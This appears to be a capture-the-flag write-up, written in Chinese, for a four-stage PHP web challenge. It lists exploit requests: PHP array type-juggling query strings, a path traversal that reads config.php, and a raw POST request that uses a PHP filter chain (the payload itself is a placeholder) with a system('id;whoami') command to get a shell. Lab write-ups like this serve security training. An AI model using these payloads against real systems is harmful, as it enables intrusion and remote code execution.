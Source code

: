 Author: Vincent55

http://172.31.210.1:33002

### solution

參考教學文件後，應該大部分都能解出來，這邊就不重複講解，剩下應該就是格式的問題。

教學文件
- https://hackmd.io/@Vincent550102/BJwHYfxKp

exploit:

- stage1
    - /stage1.php?A[]=x&B[]=2
- stage2
    - /stage2_212ad0bdc4777028af057616450f6654.php?A[]=123&B=234
- stage3
    - /stage3_099b3b060154898840f0ebdfb46ec78f.php?page=...\config.php
    - 預設會被註解，請開啟開發人員工具檢視網頁原始碼
- stage4(應該是最多人卡關的，大部分都是不知道如何傳)

將 <PHP FILTER CHAIN> 改為教學文件中提供的 payload，即可成功 get shell 
```
POST /stage4_b182g38e7db23o8eo8qwdehb23asd311.php?1=system("id;whoami"); HTTP/1.1
Host: 172.31.210.1:33002
Content-Length: 8227
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="👀"

<PHP FILTER CHAIN>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
